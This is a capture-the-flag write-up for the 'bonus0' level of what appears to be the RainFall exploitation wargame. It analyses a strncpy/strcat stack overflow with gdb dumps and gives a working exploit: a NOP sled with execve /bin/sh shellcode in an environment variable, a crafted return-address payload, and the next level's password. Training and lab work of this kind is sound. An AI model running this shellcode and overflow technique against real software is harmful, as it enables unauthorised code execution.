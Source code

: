 # Bonus 0

<h3>source.c</h3>

```console
void p(char* str, char* seperator) {
  char buffer[4096];

  puts(seperator);
  read(0, buffer, 4096);
  strchr(buffer, '\n')[0] = 0;
  strncpy(str, buffer, 20);
}

void pp(char *str) {
  char a[20];
  char b[20];

  p(a, " - ");
  p(b, " - ");
  strcpy(str, a);
  str[strlen(str)] = ' ';
  strcat(str, b);
}

int main(void) {
  char str[42];

  pp(str);
  puts(str);
  return (0);
}
```

<h3>Analysis</h3>

In this program, there is 2 vulnerable function, `strcpy` and `strcat`, but it seems that the buffer is quite small, and there is some writing protecting in `p()` as well.

```console
inside p()
read(0, buffer, 4096);              -> read from buffer
strchr(buffer, '\n')[0] = 0;        -> assign `0` as null termination for string
strncpy(str, buffer, 20);           -> copy only 20 bytes into the str given as arg to p()
```

With gdb we can find the address for these following variable

```console
char* a                 -> `0xbffff628`
char* b                 -> `0xbffff63c`
char* str [esp+0x16]    -> `0xbffff676`
```

Lets make some breakpoint and see what happen in some of these interesting part of the code

```console
(gdb) break *0x08048539 -> after 1st p()
(gdb) break *0x0804854c -> after 2nd p()
(gdb) break *0x0804855e -> after strcpy
(gdb) break *0x0804859d -> after strcat
```

Okay, the preparation is completed, lets check how much buffer we actually have, and what kind of exploit we could do

```console
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 8, 0x08048539 in pp ()
(gdb) x/32wx $esp
0xbffff600:	0xbffff628	0x080486a0	0x00000000	0xb7fd0ff4
0xbffff610:	0xbffff65e	0xbffff65f	0x00000001	0xb7ec3c49
0xbffff620:	0xbffff65f	0xbffff65e	0x61616161	0x61616161      -> the address of str 'a' have being writen by 20 * 'a' char,
0xbffff630:	0x61616161	0x61616161	0x61616161	0xb7e5ec73         the '0' which is suppose to be terminating the string is overwriten by 'a' as well,
0xbffff640:	0x0804829c	0x00000000	0x00c30000	0x00000001         thus this str does not terminate
0xbffff650:	0xb7fd0ff4	0x00000000	0xbffff6a8	0x080485b9
```

```console
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb

Breakpoint 9, 0x0804854c in pp ()
(gdb) x/32wx $esp
0xbffff600:	0xbffff63c	0x080486a0	0x00000000	0xb7fd0ff4
0xbffff610:	0xbffff65e	0xbffff65f	0x00000001	0xb7ec3c49
0xbffff620:	0xbffff65f	0xbffff65e	0x61616161	0x61616161
0xbffff630:	0x61616161	0x61616161	0x61616161	0x62626262      -> the address of str 'b' located just after str 'a', and we can clearly see that there is no '0'
0xbffff640:	0x62626262	0x62626262	0x62626262	0x62626262         the '0' for str 'b' have being overwritten as well
0xbffff650:	0xb7fd0ff4	0x00000000	0xbffff6a8	0x080485b9
0xbffff660:	0xbffff676	0x080498d8	0x00000002	0x0804835d
0xbffff670:	0xb7fd13e4	0x00000016	0x080498d8	0x080485f1
```

Base on the example above, if we write 20 char for both str 'a' and str 'b', they will both ends up of having no '0' (null termination) and the final content for both of them will looks like this

```console
char* a
0xbffff628:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff638:	0x61616161	0x62626262	0x62626262	0x62626262
0xbffff648:	0x62626262	0x62626262	0xb7fd0ff4	0x00000000

char* b
0xbffff63c:	0x62626262	0x62626262	0x62626262	0x62626262
0xbffff64c:	0x62626262	0xb7fd0ff4	0x00000000
```

So when this `strcpy(str, a)` happen, the character written into str will be `'a' * 20 + 'b' * 20 + '0xb7fd0ff4'`

```console
(gdb) x/32w 0xbffff676
0xbffff676:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff686:	0x61616161	0x62626262	0x62626262	0x62626262
0xbffff696:	0x62626262	0x62626262	0xb7fd0ff4	0x00000800
```

Next the str will be added with a `0x20(white_space)` and continue with `strcat(str, b)`, which will concat `'b' * 20 + '0xb7fd0ff4'` into str

```console
(gdb) x/32w 0xbffff676
0xbffff676:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff686:	0x61616161	0x62626262	0x62626262	0x62626262
0xbffff696:	0x62626262	0x62626262	0xb7fd0ff4	0x62626220
0xbffff6a6:	0x62626262	0x62626262	0x62626262	0x62626262
0xbffff6b6:	0xfd0ff462	0xc85800b7
```

Base on this, the char *str which is supposed to only have 42 buffer, and each str a and str b are only suppose to be writing 21 max, are now ended up writing 72 bytes in total!

The `RET` of the main function is location at `0xbffff6ac`, [str + 0x36]

and base on the experiment, an offset of `9` for char* b is enough to reach it.

But since there is only `11` char left for us to play around in `char* b`, it is not enough to call `shellcode` or even `system(/bin/sh)` (we only need 12 bytes for that, oh god..)

<h3>Exploit</h3>

Because of the limitation of the usable buffer, we could not use `ret2libc` attack, also there is `ASLR (Address space layout randomization)` which will change the stack address everytime the program rerun

This making the exploit even harder as it will be close to imposible to pinpoint the correct address

What we could do here is to use ENV to store our shell code, also we can add u bunch of `NOP (\x90)` or `No operation` in front of our `ShellCode`

So that even if the location that we jump into are not exectly the start of the `ShellCode`, `NOP` will help us slide into it as it will perform no operation and move the `EIP` forward

And eventually, we could reach our `ShellCode` (NOP slide FTW!!)

```console
export SHELLCODE=`python -c "print '\x90' * 100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"`
```

Next, what we need to do is to find the address of our `ENV SHELLCODE`

```console
(gdb) break *0x080485c0
Breakpoint ` at 0x80485c0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
aa
 -
bb

Breakpoint `, 0x080485c0 in main ()
(gdb) x/s *((char **)environ)
0xbffff841:
"SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200"
(gdb) x/32wx 0xbffff841
0xbffff841:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xbffff851:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff861:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff871:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff881:	0x90909090	0x90909090	0x90909090	0x90909090
```

From there we can choose any address that contain the `\x90`, and the `NOP slide` will bring us to the beginning of our `ShellCode`, example `0xbffff851`

Now its time to build our payload

```console
python -c "print 'a' * 4095 + '\n' + 'b' * 9 + '\x51\xf8\xff\xbf' + 'b' * 7" > /tmp/a
```

I have tried to fill the first buffer with only 20 bytes but its not working, so finally i put the max buffer for the first read and it works!

```console
bonus0@RainFall:~$ python -c "print 'a' * 4095 + '\n' + 'b' * 9 + '\x51\xf8\xff\xbf' + 'b' * 7" > /tmp/a
bonus0@RainFall:~$ cat /tmp/a - | ./bonus0
 -
 -
aaaaaaaaaaaaaaaaaaaabbbbbbbbbQ���bbbbbbb�� bbbbbbbbbQ���bbbbbbb��
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```